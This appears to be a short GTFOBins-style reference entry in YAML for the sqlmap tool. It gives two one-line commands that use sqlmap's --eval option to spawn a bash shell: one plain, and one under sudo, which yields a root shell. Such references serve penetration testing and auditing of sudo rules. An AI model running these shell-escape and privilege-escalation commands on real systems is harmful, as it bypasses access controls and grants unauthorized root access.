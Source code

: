 ```yaml
---
functions:
  shell:
    - code: sqlmap -u 127.0.0.1 --eval="import os;os.system('bash')"
  sudo:
    - code: sudo sqlmap -u 127.0.0.1 --eval="import os;os.system('bash')"
---
```

